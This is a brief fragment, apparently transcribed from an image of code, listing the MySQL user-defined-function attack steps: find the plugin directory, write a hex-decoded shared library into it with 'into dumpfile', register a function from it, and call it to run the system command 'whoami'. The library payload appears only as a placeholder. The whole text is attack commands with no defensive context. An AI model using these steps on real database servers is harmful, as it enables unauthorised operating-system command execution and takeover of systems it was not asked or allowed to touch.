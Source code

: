 show variables like '%plugin%';
\# 默认为/usr/lib/mysql/plugin/

select unhex('payloads') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';

create function cyy_udf_eval returns string soname 'mysqludf.so';

select cyy_udf_eval('whoami');